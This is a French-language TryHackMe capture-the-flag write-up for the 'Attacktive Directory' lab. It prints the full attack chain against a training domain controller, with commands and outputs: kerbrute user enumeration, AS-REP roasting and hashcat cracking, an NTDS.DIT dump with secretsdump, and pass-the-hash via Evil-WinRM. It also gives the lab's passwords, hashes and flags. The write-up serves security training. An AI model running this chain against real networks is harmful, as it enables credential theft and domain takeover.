

# Attacktive Directory #

## Task 1 Intro Deploy The Machine ##

Configurez votre environnement. 

## Task 2 Intro Setup ##

**Install Impacket, Bloodhound and Neo4j**

```bash
www-data@cmess:/$ tim@kali:~/Bureau/tryhackme/write-up$ sudo apt install bloodhound neo4j
[sudo] Mot de passe de tim : 
```

Installation sous kali ou dérivé de debian.   

## Task 3 Enumeration Welcome to Attacktive Directory ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.87.247 attacktivedirect.thm' >> /etc/hosts" 
```

**What tool will allow us to enumerate port 139/445?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ git clone https://github.com/cddmp/enum4linux-ng
Clonage dans 'enum4linux-ng'...
remote: Enumerating objects: 917, done.
remote: Counting objects: 100% (216/216), done.
remote: Compressing objects: 100% (141/141), done.
remote: Total 917 (delta 142), reused 132 (delta 74), pack-reused 701
Réception d'objets: 100% (917/917), 521.13 Kio | 2.67 Mio/s, fait.
Résolution des deltas: 100% (580/580), fait.
tim@kali:~/Bureau/tryhackme/write-up$ cd enum4linux-ng/
tim@kali:~/Bureau/tryhackme/write-up/enum4linux-ng$ ./enum4linux-ng.py attacktivedirect.thm
ENUM4LINUX - next generation

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... attacktivedirect.thm
[*] Username ......... ''
[*] Random Username .. 'rkhngdte'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ============================================
|    Service Scan on attacktivedirect.thm    |
 ============================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ============================================================
|    Domain Information via LDAP for attacktivedirect.thm    |
 ============================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: spookysec.local

 ============================================================
|    NetBIOS Names and Workgroup for attacktivedirect.thm    |
 ============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 =================================================
|    SMB Dialect Check on attacktivedirect.thm    |
 =================================================
[*] Check for legacy SMBv1 on 445/tcp
[+] Server supports dialects higher SMBv1

 =================================================
|    RPC Session Check on attacktivedirect.thm    |
 =================================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user session
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 ===========================================================
|    Domain Information via RPC for attacktivedirect.thm    |
 ===========================================================
[+] Domain: THM-AD
[+] SID: S-1-5-21-3591857110-2884097990-301047963
[+] Host is part of a domain (not a workgroup)

 ======================================================
|    OS Information via RPC on attacktivedirect.thm    |
 ======================================================
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED

 =============================================
|    Users via RPC on attacktivedirect.thm    |
 =============================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 ==============================================
|    Groups via RPC on attacktivedirect.thm    |
 ==============================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 ==============================================
|    Shares via RPC on attacktivedirect.thm    |
 ==============================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 =================================================
|    Policies via RPC for attacktivedirect.thm    |
 =================================================
[*] Trying port 445/tcp
[-] SamrConnect2 call failed on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SamrConnect2 call failed on port 139/tcp: STATUS_ACCESS_DENIED

 =================================================
|    Printers via RPC for attacktivedirect.thm    |
 =================================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 11.56 seconds
```

Normalement je le fait avec enum4linux, mais il fonctionne mal.   

La réponse est : enum4linux    

**What is the NetBIOS-Domain Name of the machine?**

D'après les résultats de enum4linux-ng, le domaine NetBios est : THM-AD.   

**What invalid TLD do people commonly use for their Active Directory Domain?**

D'après le scan  enum4linux-ng le TLD invalid est : .local   

## Task 4 Enumeration Enumerating Users via Kerberos ##

**What command within Kerbrute will allow us to enumerate valid usernames?**

```bash
sudo sh -c "echo '10.10.87.247 spookysec.local' >> /etc/hosts"

tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt -nv
2021-08-25 13:04:42 URL:https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt [540470/540470] -> "userlist.txt" [1]

tim@kali:~/Bureau/tryhackme/write-up$ ./kerbrute_linux_amd64 userenum -d spookysec.local --dc spookysec.local ./userlist.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/25/21 - Ronnie Flathers @ropnop

2021/08/25 13:07:13 >  Using KDC(s):
2021/08/25 13:07:13 >  	spookysec.local:88

2021/08/25 13:07:13 >  [+] VALID USERNAME:	 james@spookysec.local
2021/08/25 13:07:13 >  [+] VALID USERNAME:	 svc-admin@spookysec.local
2021/08/25 13:07:14 >  [+] VALID USERNAME:	 James@spookysec.local
2021/08/25 13:07:14 >  [+] VALID USERNAME:	 robin@spookysec.local
2021/08/25 13:07:17 >  [+] VALID USERNAME:	 darkstar@spookysec.local
2021/08/25 13:07:19 >  [+] VALID USERNAME:	 administrator@spookysec.local
2021/08/25 13:07:23 >  [+] VALID USERNAME:	 backup@spookysec.local
2021/08/25 13:07:25 >  [+] VALID USERNAME:	 paradox@spookysec.local
2021/08/25 13:07:36 >  [+] VALID USERNAME:	 JAMES@spookysec.local
2021/08/25 13:07:40 >  [+] VALID USERNAME:	 Robin@spookysec.local
2021/08/25 13:08:03 >  [+] VALID USERNAME:	 Administrator@spookysec.local
2021/08/25 13:08:48 >  [+] VALID USERNAME:	 Darkstar@spookysec.local
2021/08/25 13:09:03 >  [+] VALID USERNAME:	 Paradox@spookysec.local
2021/08/25 13:09:59 >  [+] VALID USERNAME:	 DARKSTAR@spookysec.local
2021/08/25 13:10:14 >  [+] VALID USERNAME:	 ori@spookysec.local
2021/08/25 13:10:41 >  [+] VALID USERNAME:	 ROBIN@spookysec.local
2021/08/25 13:11:54 >  Done! Tested 73317 usernames (16 valid) in 281.902 seconds


```

On met le sous domaîne dans le hosts.   
On télécharge une liste de nom.  
On brute force les noms aevc kerbrute.   

La réponse est : usernum.   

**What notable account is discovered? (These should jump out at you)**

Le compte que l'on remarque est : svc-admin

**What is the other notable account is discovered? (These should jump out at you)**

L'autre compte que l'on remarque est : backup   

## Task 5 Exploitation Abusing Kerberos ##

**We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ GetNPUsers.py spookysec.local/svc-admin
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

Password:
[*] Cannot authenticate svc-admin, getting its TGT
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:32df868fa3665c3b12e701dfce3bfd2d$da73c2f757e02273fc2448d7f216f47700f72168d7077e35f99ad8ee0633ddeaed6ae20111da993b5897518e60f1aeb83e8cbdb5656ab63d921efd6c33b814f3e393784008bb5ef1b989a1702fc2d716865a48684ebac274d684827f13dc203e669e74f7aacc4c6d5313f42c78a33670b2d4620b3e18cb4222a414bcfa1ce69f62ecbc35fc3e0a1fe3397d8fd856d38f239467a8b2f3aba6e80270a2a87236744fb9ca207c19f349a655e917dba1150c418d841d26b8c7f45979aa345f46c5d6aea8e6d2db8ac9ab9d2055fd962ed1f2ea73a04eec6a524036be30ca22a7bc6ac20e0bd1e7f502f5f8fe965109d425bf99a6
```

Le compte svc-admin donne un ticket sans mot de passe.   

Réponse : svc-admin   

**Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)**



On cherchant dans l'aide avec un motif on trouve.    

La réponse est : Kerberos 5 AS-REP etype 23   

**What mode is the hash?**

Dans l'aide ci-dessus, le numéro du mode est : 18200   

**Now crack the hash with the modified password list provided, what is the user accounts password?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo '$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:32df868fa3665c3b12e701dfce3bfd2d$da73c2f757e02273fc2448d7f216f47700f72168d7077e35f99ad8ee0633ddeaed6ae20111da993b5897518e60f1aeb83e8cbdb5656ab63d921efd6c33b814f3e393784008bb5ef1b989a1702fc2d716865a48684ebac274d684827f13dc203e669e74f7aacc4c6d5313f42c78a33670b2d4620b3e18cb4222a414bcfa1ce69f62ecbc35fc3e0a1fe3397d8fd856d38f239467a8b2f3aba6e80270a2a87236744fb9ca207c19f349a655e917dba1150c418d841d26b8c7f45979aa345f46c5d6aea8e6d2db8ac9ab9d2055fd962ed1f2ea73a04eec6a524036be30ca22a7bc6ac20e0bd1e7f502f5f8fe965109d425bf99a6' > hash

tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt -nv
2021-08-25 14:19:54 URL:https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt [569236/569236] -> "passwordlist.txt" [1]   

tim@kali:~/Bureau/tryhackme/write-up$ hashcat -m 18200 -a 0 hash ./passwordlist.txt  --quiet
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:32df868fa3665c3b12e701dfce3bfd2d$da73c2f757e02273fc2448d7f216f47700f72168d7077e35f99ad8ee0633ddeaed6ae20111da993b5897518e60f1aeb83e8cbdb5656ab63d921efd6c33b814f3e393784008bb5ef1b989a1702fc2d716865a48684ebac274d684827f13dc203e669e74f7aacc4c6d5313f42c78a33670b2d4620b3e18cb4222a414bcfa1ce69f62ecbc35fc3e0a1fe3397d8fd856d38f239467a8b2f3aba6e80270a2a87236744fb9ca207c19f349a655e917dba1150c418d841d26b8c7f45979aa345f46c5d6aea8e6d2db8ac9ab9d2055fd962ed1f2ea73a04eec6a524036be30ca22a7bc6ac20e0bd1e7f502f5f8fe965109d425bf99a6:management2005
```

On prépare le hash. 
On télécharge la liste de mots de passes.   
On brute force le hash.   

La réponse est : management2005    

## Task 6 Enumeration Back to the Basics ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient -L attacktivedirect.thm -U 'svc-admin'
Enter WORKGROUP\svc-admin's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Avec le nom et le mot de passe on peut lister les partages.   

**What utility can we use to map remote SMB shares?**

On utilise : smbclient    

**Which option will list shares?**

L'option -L permet de lister les partages.   

Réponse : -L    

**How many remote shares is the server listing?**

Il y 6 partages.    

Réponse : 6         

**There is one particular share that we have access to that contains a text file. Which share is it?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient \\\\attacktivedirect.thm\\backup -U 'svc-admin'
Enter WORKGROUP\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 21:08:39 2020
  ..                                  D        0  Sat Apr  4 21:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 21:08:53 2020

		8247551 blocks of size 4096. 3972011 blocks available
smb: \> 
```

La partage qui contient un fichier texte est : backup     

**What is the content of the file?**

```bash
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0,3 KiloBytes/sec) (average 0,3 KiloBytes/sec)
smb: \> exit
tim@kali:~/Bureau/tryhackme/write-up$ cat backup_credentials.txt 
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
```

On récupère le fichier et on le lit.  

Le contenu du fichier est : YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw    

**Decoding the contents of the file, what is the full contents?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo 'YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw' | base64 -d
backup@spookysec.local:backup2517860
```

C'est du base64.

Le contenu décodé est : backup@spookysec.local:backup2517860     

## Task 7 Domain Privilege Escalation Elevating Privileges within the Domain ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ secretsdump.py -just-dc backup@spookysec.local
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:7f11e2ce6e3859ca492e2d345220ae9b:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
spookysec.local\james:aes256-cts-hmac-sha1-96:1bb2c7fdbecc9d33f303050d77b6bff0e74d0184b5acbd563c63c102da389112
spookysec.local\james:aes128-cts-hmac-sha1-96:08fea47e79d2b085dae0e95f86c763e6
spookysec.local\james:des-cbc-md5:dc971f4a91dce5e9
spookysec.local\optional:aes256-cts-hmac-sha1-96:fe0553c1f1fc93f90630b6e27e188522b08469dec913766ca5e16327f9a3ddfe
spookysec.local\optional:aes128-cts-hmac-sha1-96:02f4a47a426ba0dc8867b74e90c8d510
spookysec.local\optional:des-cbc-md5:8c6e2a8a615bd054
spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:80df417629b0ad286b94cadad65a5589c8caf948c1ba42c659bafb8f384cdecd
spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:c3db61690554a077946ecdabc7b4be0e
spookysec.local\sherlocksec:des-cbc-md5:08dca4cbbc3bb594
spookysec.local\darkstar:aes256-cts-hmac-sha1-96:35c78605606a6d63a40ea4779f15dbbf6d406cb218b2a57b70063c9fa7050499
spookysec.local\darkstar:aes128-cts-hmac-sha1-96:461b7d2356eee84b211767941dc893be
spookysec.local\darkstar:des-cbc-md5:758af4d061381cea
spookysec.local\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067
spookysec.local\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e
spookysec.local\Ori:des-cbc-md5:1c8f79864654cd4a
spookysec.local\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
spookysec.local\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
spookysec.local\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
spookysec.local\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
spookysec.local\paradox:des-cbc-md5:83988983f8b34019
spookysec.local\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
spookysec.local\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
spookysec.local\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:be69fd490d3d11c8ffc0e56a6c6ed09004073e7342563fbd6966fb34f8a4c360
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:c2caf5ed2112c3617f3b33580ea8a44b
ATTACKTIVEDIREC$:des-cbc-md5:3208b3b0eaa79edc
[*] Cleaning up... 
```

**What method allowed us to dump NTDS.DIT?**

D'après les résultat de notre dump la méthode utilisée est : DRSUAPI    

**What is the Administrators NTLM hash?**

Le hash NTLM de admonistrator est : 0e0363213e37b94221497260b0bcb4fc    

**What method of attack could allow us to authenticate as the user without the password?** 

Il existe une methode qui permet de s'identifier que avec le hash.
Cette méthode s'appel : Pass The Hash    

**Using a tool called Evil-WinRM what option will allow us to use a hash?**  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ evil-winrm -i 10.10.87.247 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```

L'option -H nous permet d'utiliser un hash.    

La réponse est : -H

## Task 8 Flag Submission Flag Submission Panel ##

**svc-admin**

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\..
*Evil-WinRM* PS C:\Users> cd svc-admin
*Evil-WinRM* PS C:\Users\svc-admin> cd Desktop
*Evil-WinRM* PS C:\Users\svc-admin\Desktop> dir


    Directory: C:\Users\svc-admin\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  12:18 PM             28 user.txt.txt

*Evil-WinRM* PS C:\Users\svc-admin\Desktop> type user.txt.txt
TryHackMe{K3rb3r0s_Pr3_4uth}
```

On va dans l'utilisateur svc-admin puis dans Desktop et on lit le fichier user.txt.txt.    

La réponse est : TryHackMe{K3rb3r0s_Pr3_4uth}    

**backup**

```bash
*Evil-WinRM* PS C:\Users\svc-admin\Desktop> cd ..\..\backup
*Evil-WinRM* PS C:\Users\backup> cd Desktop
*Evil-WinRM* PS C:\Users\backup\Desktop> ls


    Directory: C:\Users\backup\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  12:19 PM             26 PrivEsc.txt

*Evil-WinRM* PS C:\Users\backup\Desktop> type PrivEsc.txt
TryHackMe{B4ckM3UpSc0tty!}
```

Dans le Desktop de backup on trouve le flag dans PrivEsc.txt.  

La réponse est : TryHackMe{B4ckM3UpSc0tty!}    

**Administrator**

```bash
*Evil-WinRM* PS C:\Users\backup\Desktop> cd ../../Administrator/Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  11:39 AM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
TryHackMe{4ctiveD1rectoryM4st3r}
```

Dans le Desktop de Administrator on trouve le flag dans root.txt.   

La flag est : TryHackMe{4ctiveD1rectoryM4st3r}   
